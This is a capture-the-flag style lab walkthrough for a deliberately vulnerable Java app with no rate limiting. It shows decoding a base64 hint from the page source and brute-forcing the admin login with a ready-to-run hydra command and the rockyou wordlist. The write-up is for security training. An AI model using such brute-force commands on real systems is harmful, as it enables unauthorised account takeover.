

# Java - Ratelimiting

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```


Now that the app is running let's go hacking!


## Reconnaissance

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.


We are going to decrypt the base64 encoded string using terminal as shown in the below image.


```
$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
$ Developer username: devteam
$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - \[https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-40.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```
hydra -l devteam -P ./rockyou-40.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.



## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.


